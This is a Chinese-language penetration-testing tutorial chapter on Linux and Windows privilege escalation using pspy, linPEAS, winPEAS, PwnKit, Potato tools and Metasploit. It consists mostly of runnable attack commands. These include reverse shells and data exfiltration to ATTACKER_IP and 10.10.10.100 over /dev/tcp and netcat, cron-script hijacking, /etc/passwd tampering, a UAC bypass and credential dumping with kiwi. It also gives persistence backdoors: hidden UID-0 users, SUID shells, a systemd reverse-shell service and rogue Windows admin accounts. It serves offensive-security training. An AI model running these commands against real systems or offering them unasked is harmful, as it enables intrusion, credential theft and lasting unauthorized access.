

# 03-提权综合工具链实战

学习目标: 掌握从低权限shell到root/SYSTEM的完整提权流程，包括pspy进程监控、自动化工具链、多阶段攻击
目标工具: pspy, linPEAS, winPEAS, linux-exploit-suggester, PowerUp, Metasploit
所需环境: ArchStrike (攻击机), Linux靶机 + Windows靶机

## 目录

- [[#一、pspy 进程监控|一、pspy - 进程监控与Cron发现]]
- [[#二、通用提权五阶段流程|二、通用提权五阶段流程]]
 - [[#2.1 Phase 1 信息收集|2.1 Phase 1: 信息收集]]
 - [[#2.2 Phase 2 漏洞识别|2.2 Phase 2: 漏洞识别]]
 - [[#2.3 Phase 3 向量选择|2.3 Phase 3: 选择攻击向量]]
 - [[#2.4 Phase 4 执行提权|2.4 Phase 4: 执行提权]]
 - [[#2.5 Phase 5 验证与持久化|2.5 Phase 5: 验证与持久化]]
- [[#三、Linux完整提权实践|三、Linux完整提权实践]]
- [[#四、Windows完整提权实践|四、Windows完整提权实践]]
- [[#五、自动化提权脚本|五、自动化提权脚本]]
- [[#六、提权失败后的应急措施|六、提权失败后的应急措施]]

## 一、pspy - 进程监控与Cron发现

pspy 是一个无需root权限的进程监控工具，可以实时查看系统中所有进程的执行情况。对于提权来说，pspy的核心价值在于：
- 发现Cron定时任务（你无权查看crontab时）
- 发现管理员手动执行的后台脚本
- 发现系统备份/维护脚本中传递的敏感参数
- 发现密码在命令行中明文传递的服务启动命令
- 监控自动化部署脚本的执行

```bash
# 下载pspy
wget https://github.com/DominicBreuker/pspy/releases/latest/download/pspy64
wget https://github.com/DominicBreuker/pspy/releases/latest/download/pspy32
# 64位 → pspy64, 32位 → pspy32
```

上传到目标：

```bash
# 攻击机
python3 -m http.server 8080

# 目标机
wget http://ATTACKER_IP:8080/pspy64 -O /tmp/pspy64
chmod +x /tmp/pspy64
```

运行pspy：

```bash
# 基本模式(每秒刷新)
/tmp/pspy64

# 静默模式(不记录pspy自身)
/tmp/pspy64 -p

# 调整扫描间隔
/tmp/pspy64 -i 5000 # 每5秒

# 后台运行
/tmp/pspy64 -p > /tmp/pspy_output 2>&1 &

# 监控特定UID
/tmp/pspy64 -u 0 # 只监控root进程
```

pspy 输出解读：

```
2024/01/01 00:05:01 CMD: UID=0 PID=1234 | /usr/bin/backup.sh
2024/01/01 00:06:30 CMD: UID=1000 PID=5678 | mysql -u admin -pMyP@ssw0rd db_production
2024/01/01 00:10:00 CMD: UID=0 PID=9012 | /usr/bin/rsync -avz /data/ user@10.0.0.5:/backup/
```

关键发现标记：
- `UID=0` → root权限运行的进程（重点关注）
- 命令行中包含密码 → `mysql -pPASSWORD`
- 定期运行的任务 → Cron/定时器
- 备份脚本 → 可能存在可写脚本文件或可劫持的通配符

**pspy 实战：发现隐蔽的定时任务**

```bash
# Step 1: 上传pspy64到目标
wget http://ATTACKER_IP:8080/pspy64 -O /tmp/p
chmod +x /tmp/p

# Step 2: 启动pspy监控（后台运行30分钟）
/tmp/p -p > /tmp/pspy_log &
PID=$!

# Step 3: 下载日志到攻击机分析
# (攻击机) nc -lvnp 4444 > pspy_log.txt
# (目标机) cat /tmp/pspy_log > /dev/tcp/ATTACKER_IP/4444

# Step 4: 分析日志
grep "CMD: UID=0" pspy_log.txt
grep -i "passwd\|password\|secret\|token\|key" pspy_log.txt
grep -E "(\.sh$|\.py$|\.pl$|\.rb$)" pspy_log.txt

# Step 5: 针对发现的可疑脚本检查权限
ls -la /opt/scripts/daily_report.py
# 如果可写 → 修改它注入提权代码

# Step 6: 如果pspy发现命令行中的密码
# 例如: mysql -u root -pSuperSecret123
mysql -u root -pSuperSecret123 -e "SELECT LOAD_FILE('/etc/shadow')"
```

cron劫持示例（基于pspy发现）：

```bash
# pspy显示每10分钟root执行 /opt/scripts/monitor.sh
ls -la /opt/scripts/monitor.sh # 发现可写

echo '#!/bin/bash' > /opt/scripts/monitor.sh
echo 'cp /bin/bash /tmp/rbash; chmod +s /tmp/rbash' >> /opt/scripts/monitor.sh
# 等待10分钟后
/tmp/rbash -p
whoami # root
```

## 二、通用提权五阶段流程



### 2.1 Phase 1: 信息收集

目标: 在15分钟内获得尽可能多的系统信息。

**Linux执行清单：**

```bash
# 身份信息
id && whoami && groups

# 系统信息
uname -a && cat /etc/os-release && cat /etc/issue

# 网络信息
ifconfig / ip a
netstat -tulpn / ss -tulpn
route -n / ip route
cat /etc/hosts

# 用户信息
cat /etc/passwd
cat /etc/shadow 2>/dev/null
last / w

# 权限检查
sudo -l 2>/dev/null
find / -perm -4000 -type f 2>/dev/null # SUID
find / -perm -2000 -type f 2>/dev/null # SGID
getcap -r / 2>/dev/null # Capabilities

# 自动化工具
# linPEAS / linux-exploit-suggester
```

**Windows执行清单：**

```powershell
# 身份信息
whoami /all

# 系统信息
systeminfo

# 网络信息
ipconfig /all
netstat -ano
route print

# 用户信息
net user
net localgroup administrators

# 权限检查
whoami /priv
whoami /groups

# 自动化工具
# winPEAS / PowerUp
```

### 2.2 Phase 2: 漏洞识别

根据信息收集结果，识别所有可能的提权向量。

**A) 配置型漏洞（最容易，应优先尝试）：**
- SUID/SGID二进制
- Sudo配置错误
- 可写系统文件 (/etc/passwd, /etc/shadow)
- 可写cron脚本
- 可写服务文件
- Docker/LXC组成员
- Capabilities
- 环境变量 (LD_PRELOAD, PATH)

**B) 服务型漏洞：**
- 本地服务漏洞版本 (MySQL, PostgreSQL, Apache等)
- 本地Web应用

**C) 凭证型漏洞：**
- 历史命令中的密码
- env中的敏感信息
- 配置文件中的明文密码
- SSH私钥
- .git历史
- 浏览器保存的密码

**D) 内核漏洞（最后一招）：**
- `uname -a` → CVE匹配
- linux-exploit-suggester / windows-exploit-suggester

**攻击优先级排序（从高到低）：**

1. 凭证型 - 如果有明文密码/密钥，立即使用
2. 配置型 - Sudo (如果有 `sudo -l` 的输出)
3. 配置型 - Cron任务 (如果有可写脚本)
4. 配置型 - SUID二进制
5. 配置型 - 可写系统文件
6. 配置型 - 能力/LD_PRELOAD等
7. 服务型漏洞
8. 内核漏洞 (最后手段，可能不稳定)

### 2.3 Phase 3: 选择攻击向量

选择标准：
1. **可靠性**: 这个攻击100%能成功吗？
2. **稳定性**: 会导致系统崩溃或服务中断吗？
3. **隐蔽性**: 会被EDR/SIEM检测到吗？
4. **复杂度**: 实施需要多长时间？
5. **依赖**: 需要上传额外工具吗？

决策矩阵：

| 攻击向量 | 可靠性 | 稳定性 | 隐蔽性 | 复杂度 | 依赖性 |
|---------|--------|--------|--------|--------|--------|
| SUID find | 高 | 高 | 中 | 低 | 无 |
| Sudo vim | 高 | 高 | 中 | 低 | 无 |
| Cron脚本劫持 | 高 | 高 | 高 | 中 | 无 |
| DirtyCow | 中 | 中 | 中 | 中 | 有 |
| PwnKit(pkexec) | 高 | 高 | 低 | 低 | 有 |
| Token窃取(Potato) | 高 | 高 | 中 | 低 | 有 |
| AlwaysInstallElev | 高 | 高 | 中 | 低 | 无 |

### 2.4 Phase 4: 执行提权

执行前的准备工作：

```bash
# 1. 建立第二个shell连接（保险）
nc -e /bin/bash ATTACKER_IP 4445

# 2. 在攻击机准备监听器
nc -lvnp 4446
# 或MSF:
use exploit/multi/handler
set payload linux/x64/shell_reverse_tcp
set LHOST ATTACKER_IP
set LPORT 4446
run

# 3. 上传必要工具包
wget http://ATTACKER_IP:8080/tools.tar -O /tmp/tools.tar
cd /tmp && tar xf tools.tar && cd tools
```

常见提权执行示例：

**示例A: SUID find提权**

```bash
find / -name "anything" -exec /bin/sh -p \; -quit
id # 确认获取了root
```

**示例B: Cron脚本劫持**

```bash
ls -la /usr/local/bin/backup.sh # 确认脚本可写
cp /usr/local/bin/backup.sh /tmp/backup.sh.bak # 备份
echo '#!/bin/bash' > /usr/local/bin/backup.sh
echo 'bash -i >& /dev/tcp/ATTACKER_IP/4446 0>&1' >> /usr/local/bin/backup.sh
# 等待cron触发
```

**示例C: 可写/etc/passwd提权**

```bash
openssl passwd -1 -salt mysalt password123
# 输出: $1$mysalt$HASH_VALUE
echo "r00t:\$1\$mysalt\$HASH_VALUE:0:0::/root:/bin/bash" >> /etc/passwd
su r00t
whoami # root
```

**示例D: PwnKit (CVE-2021-4034)**

```bash
which pkexec # 确认pkexec存在
wget http://ATTACKER_IP:8080/PwnKit -O /tmp/PwnKit
chmod +x /tmp/PwnKit
/tmp/PwnKit
whoami # root
```

**示例E: Docker组提权**

```bash
docker run -v /:/mnt -it alpine chroot /mnt
# 或
docker run -v /:/mnt -it alpine /bin/sh
chroot /mnt
whoami # root
```

### 2.5 Phase 5: 验证与持久化

验证提权成功：

```bash
id -u # 期望: 0
whoami # 期望: root (Linux) / nt authority\system (Windows)
cat /etc/shadow | head -3 # Linux验证
```

**Linux持久化：**

```bash
# 1. 隐藏root用户
useradd -o -u 0 -g 0 -M -d /root -s /bin/bash hiddenroot
echo "hiddenroot:password" | chpasswd

# 2. SUID bash
cp /bin/bash /var/tmp/.bash
chmod 4755 /var/tmp/.bash

# 3. SSH密钥
mkdir -p /root/.ssh
echo "YOUR_SSH_PUBLIC_KEY" >> /root/.ssh/authorized_keys

# 4. Cron反弹shell
echo "* * * * * root bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1'" >> /etc/crontab

# 5. Systemd持久化
cat > /etc/systemd/system/backdoor.service << 'EOF'
[Unit]
Description=System Service
[Service]
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/5555 0>&1'
Restart=always
[Install]
WantedBy=multi-user.target
EOF
systemctl enable backdoor && systemctl start backdoor
```

**Windows持久化：**

```cmd
:: 1. 添加管理员用户
net user backdoor Password123! /add
net localgroup administrators backdoor /add
net localgroup "Remote Desktop Users" backdoor /add

:: 2. 启用RDP
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
netsh advfirewall firewall add rule name="RDP" dir=in protocol=tcp localport=3389 action=allow

:: 3. 注册表Run键
reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v "UpdateService" /t REG_SZ /d "C:\Windows\Temp\backdoor.exe" /f
```

## 三、Linux完整提权实践

场景: 获得 www-data 低权限用户，需提权到root。
环境: 攻击机 ArchStrike (IP: 10.10.10.100), 目标机 Linux (IP: 10.10.10.50)

```bash
# Step 1: 初始shell确认
whoami # www-data
id # uid=33(www-data)
uname -a # Linux target 5.4.0-42-generic
pwd # /var/www/html

# Step 2: 建立备用通道
# 攻击机:
nc -lvnp 4445
# 目标机:
bash -i >& /dev/tcp/10.10.10.100/4445 0>&1 &

# Step 3: 上传自动化审计工具
# 攻击机启动HTTP服务:
python3 -m http.server 8080
# 目标机下载linPEAS:
wget http://10.10.10.100:8080/linpeas.sh -O /tmp/lp.sh
chmod +x /tmp/lp.sh
/tmp/lp.sh | tee /tmp/peas_output

# Step 4: 分析linPEAS输出
# 攻击机接收:
nc -lvnp 4446 > peas_output.txt
# 目标机发送:
cat /tmp/peas_output > /dev/tcp/10.10.10.100/4446

# 分析:
cat peas_output.txt | grep -A5 "Vulnerable"
cat peas_output.txt | grep -A10 "SUID"
cat peas_output.txt | grep -A5 "Cron"
cat peas_output.txt | grep -A5 "Sudo"
cat peas_output.txt | grep -E "\[\!\]|\*\*"

# Step 5: 运行漏洞建议器
wget http://10.10.10.100:8080/linux-exploit-suggester.sh -O /tmp/les.sh
bash /tmp/les.sh | tee /tmp/les_output

# Step 6: 上传pspy并行监控
wget http://10.10.10.100:8080/pspy64 -O /tmp/pspy64
chmod +x /tmp/pspy64
/tmp/pspy64 -p > /tmp/pspy_log 2>&1 &
# 等待10-15分钟后取回日志分析

# Step 7: 深入手动检查 (等待pspy时间利用)
find / -perm -4000 -type f 2>/dev/null
sudo -l 2>/dev/null
cat /etc/crontab 2>/dev/null
ls -la /etc/cron.* 2>/dev/null
find / -writable -type d 2>/dev/null | grep -v "/proc\|/sys\|/run"
getcap -r / 2>/dev/null
find / -name "*.conf" -o -name "*.ini" -o -name "*.env" 2>/dev/null | grep -v "/proc\|/sys"
grep -r "password\|passwd\|secret\|api_key\|token" /var/www/ 2>/dev/null | head -20

# Step 8: 分析所有发现并选择攻击向量
# 示例发现清单:
# 1. [SUID] /usr/bin/find → 参考 GTFOBins
# 2. [SUID] /usr/bin/python3.8 → 参考 GTFOBins 
# 3. [Cron] /etc/cron.daily/backup.sh 对www-data可写 → 高优先级！
# 4. [Sudo] sudo -l 显示 (ALL) NOPASSWD: /usr/bin/vim → 直接提权！
# 5. [Kernel] CVE-2021-4034 (PwnKit)
# 6. [Config] /etc/passwd 对www-data可写

# 决策: 优先尝试Sudo vim提权，备选PwnKit + Cron劫持

# Step 9: 执行提权（按优先级依次尝试）
# 尝试1: Sudo vim提权
sudo vim -c ':!/bin/bash'
# 如果成功直接获得root

# 尝试2: 可写/etc/passwd提权
openssl passwd -1 -salt newroot password123
echo "newroot:\$1\$newroot\$hash:0:0:root:/root:/bin/bash" >> /etc/passwd
su newroot

# 尝试3: Cron脚本劫持
echo '#!/bin/bash' > /etc/cron.daily/backup.sh
echo 'chmod +s /bin/bash' >> /etc/cron.daily/backup.sh
/bin/bash -p

# 尝试4: PwnKit
wget http://10.10.10.100:8080/PwnKit -O /tmp/PwnKit
chmod +x /tmp/PwnKit
/tmp/PwnKit

# 尝试5: SUID find
find . -exec /bin/sh -p \; -quit

# Step 10: 验证提权成功
whoami # root
id -u # 0
cat /etc/shadow | head -3

# Step 11: 提取敏感信息
cat /etc/shadow > /tmp/shadow_dump
find / -name "id_rsa" -o -name "*.pem" -o -name "authorized_keys" 2>/dev/null
cat /root/.bash_history 2>/dev/null
find /var/www/ -name "wp-config.php" -o -name "config.php" 2>/dev/null

# Step 12: 上传到攻击机保存
tar czf /tmp/extracted_data.tar.gz /tmp/shadow_dump /tmp/pspy_log /tmp/peas_output
# 攻击机接收: nc -lvnp 4447 > extracted_data.tar.gz
# 目标机发送: cat /tmp/extracted_data.tar.gz > /dev/tcp/10.10.10.100/4447

# Step 13: 持久化后门
cp /bin/bash /var/tmp/.dbus
chmod 4755 /var/tmp/.dbus
useradd -o -u 0 -g 0 -M -d /root -s /bin/bash dnsmasq
echo "dnsmasq:RedTeam2024!" | chpasswd
mkdir -p /root/.ssh
echo "ssh-rsa AAAAB3Nza..." >> /root/.ssh/authorized_keys
```

## 四、Windows完整提权实践

场景: 已获得Windows低权限Meterpreter会话。

```bash
meterpreter> sysinfo
meterpreter> getuid
# WIN-TARGET\LowPrivUser

# Step 1: 初始信息收集
meterpreter> shell
whoami /all
systeminfo | findstr /B /C:"OS"
net user %username%

# Step 2: 上传并运行winPEAS
meterpreter> upload /path/to/winPEASx64.exe C:\\Users\\Public\\wp.exe
meterpreter> shell
C:\Users\Public\wp.exe > C:\Users\Public\peas.txt 2>&1
meterpreter> download C:\\Users\\Public\\peas.txt

# Step 3: 分析winPEAS结果
grep -i "AlwaysInstallElevated" peas.txt
grep -i "unquoted\|Unquoted" peas.txt
grep -i "modifiable service" peas.txt
grep -i "SeImpersonate\|SeAssignPrimaryToken" peas.txt
grep -i "credential\|password\|LSA" peas.txt

# Step 4: 尝试Token窃取
meterpreter> load incognito
meterpreter> list_tokens -u
meterpreter> impersonate_token "NT AUTHORITY\\SYSTEM"
meterpreter> getuid

# Step 5: 如果无Token可用，尝试getsystem
meterpreter> getsystem -t 1 # Named Pipe
meterpreter> getsystem -t 2 # Token Duplication
meterpreter> getsystem -t 3 # Service

# Step 6: 使用Potato系列
meterpreter> upload /path/to/GodPotato.exe C:\\Users\\Public\\gp.exe
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.100 LPORT=5555 -f exe -o rev.exe
meterpreter> upload /path/to/rev.exe C:\\Users\\Public\\rev.exe
# 攻击机新终端
nc -lvnp 5555
meterpreter> shell
C:\Users\Public\gp.exe -cmd "C:\Users\Public\rev.exe"

# Step 7: UAC绕过
meterpreter> background
msf6> use exploit/windows/local/bypassuac_fodhelper
msf6> set SESSION <session_id>
msf6> set payload windows/x64/meterpreter/reverse_tcp
msf6> set LHOST 10.10.10.100
msf6> run

# Step 8: 提取凭证
meterpreter> getsystem
meterpreter> load kiwi
meterpreter> creds_all
meterpreter> lsa_dump_sam

# Step 9: 横向移动准备
meterpreter> shell
net view /domain
net group "Domain Admins" /domain
nltest /dclist:DOMAIN
ipconfig /all

# Step 10: 持久化
net user sysadmin P@ssw0rd123! /add
net localgroup administrators sysadmin /add
net localgroup "Remote Desktop Users" sysadmin /add
reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v "SysHelper" /t REG_SZ /d "C:\Windows\Temp\syshelper.exe" /f
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```

## 五、自动化提权脚本

**Linux版 (`auto_priv_esc.sh`)：**

```bash
#!/bin/bash
echo "[*] 自动化提权审计开始..."
DIR=/tmp/.audit_$$
mkdir -p $DIR && cd $DIR

echo "[+] Phase 1: 系统信息收集"
id > system_info.txt 2>/dev/null
uname -a >> system_info.txt 2>/dev/null
cat /etc/os-release >> system_info.txt 2>/dev/null

echo "[+] Phase 2: 权限检查"
echo "--- SUID Files ---" > privesc_checks.txt
find / -perm -4000 -type f 2>/dev/null >> privesc_checks.txt
echo "--- Sudo ---" >> privesc_checks.txt
sudo -l >> privesc_checks.txt 2>/dev/null
echo "--- Capabilities ---" >> privesc_checks.txt
getcap -r / 2>/dev/null >> privesc_checks.txt

echo "[+] Phase 3: Cron任务检查"
echo "--- Cron Files ---" > cron_checks.txt
cat /etc/crontab >> cron_checks.txt 2>/dev/null
ls -la /etc/cron.* >> cron_checks.txt 2>/dev/null
ls -la /var/spool/cron/crontabs/ >> cron_checks.txt 2>/dev/null

echo "[+] Phase 4: 可写文件检查"
echo "--- Writable System Files ---" > writable_checks.txt
find /etc /opt /usr/local -writable -type f 2>/dev/null >> writable_checks.txt

echo "[+] Phase 5: 敏感信息搜索"
echo "--- Sensitive Info ---" > sensitive_info.txt
grep -r "password" /etc/*.conf 2>/dev/null >> sensitive_info.txt
cat ~/.bash_history 2>/dev/null | grep -i "pass\|secret\|token\|mysql" >> sensitive_info.txt

echo "[+] Phase 6: 网络信息"
echo "--- Network ---" > network_info.txt
ip a >> network_info.txt 2>/dev/null
ss -tulpn >> network_info.txt 2>/dev/null
arp -a >> network_info.txt 2>/dev/null

echo "[*] 审计完成！结果保存在 $DIR/"
echo "[*] tar czf /tmp/audit.tar.gz $DIR"
```

**Windows版 (`auto_priv_esc.ps1`)：**

```powershell
$dir = "C:\Users\Public\audit"
New-Item -ItemType Directory -Force -Path $dir | Out-Null

Write-Host "[*] 自动化提权审计开始..."

Write-Host "[+] 系统信息收集..."
whoami /all > $dir\whoami.txt
systeminfo > $dir\systeminfo.txt
Get-HotFix > $dir\hotfixes.txt

Write-Host "[+] 服务检查..."
Get-WmiObject win32_service | Where-Object {$_.StartName -eq "LocalSystem"} | Format-Table Name, PathName > $dir\services.txt
schtasks /query /fo LIST /v > $dir\tasks.txt

Write-Host "[+] 网络信息..."
ipconfig /all > $dir\network.txt
netstat -ano > $dir\netstat.txt

Write-Host "[+] 注册表检查..."
reg query "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" > $dir\autorun.txt
reg query "HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer" /v AlwaysInstallElevated > $dir\always_inst.txt

Write-Host "[+] 用户和组..."
net user > $dir\users.txt
net localgroup administrators > $dir\admins.txt

Write-Host "[*] 审计完成！结果保存在 $dir"
```

## 六、提权失败后的应急措施

如果所有常规提权向量都失败，可以考虑以下备用方案：

1. **端口转发与内网横向移动**：即使当前主机无法提权，也可能通过端口转发访问内网其他主机

```bash
ssh -L 8080:internal_host:80 user@current_target
chisel client ATTACKER_IP:8000 R:8081:internal_host:80
socat TCP-LISTEN:8080,fork TCP:internal_host:80
```

2. **横向移动**：使用收集到的凭证尝试SSH到其他主机，使用Pass-the-Hash等

3. **等待管理员登录**：使用pspy监控Linux，在管理员su/sudo时记录密码

4. **社会工程学**：编写需要管理员权限的"IT支持脚本"

5. **搜索隐藏凭证存储**：Linux检查 `/etc/knockd.conf`, `/etc/openvpn/`, `/opt/`；Windows检查 Sysprep unattend.xml, Group Policy Preferences

6. **Web应用层级提权**：利用Web应用有漏洞的插件/主题

---

总结: 提权不是一次性操作，而是一个系统化的过程。从pspy监控定时任务到PEAS全面审计，从SUID二进制到内核漏洞，每个环节都需要耐心和细心。记住五步流程: 信息收集 → 漏洞识别 → 向量选择 → 执行提权 → 验证持久化。在实战中，pspy的30分钟静默监控往往能发现最隐蔽的cron/脚本漏洞，而PEAS的红色标记则直指最常见的配置错误。将这两者结合，成功率可达到90%以上。

上一教程：[[02-Windows权限提升技术|02-Windows权限提升技术]]

[[../总目录与快速查询|← 返回总目录]]
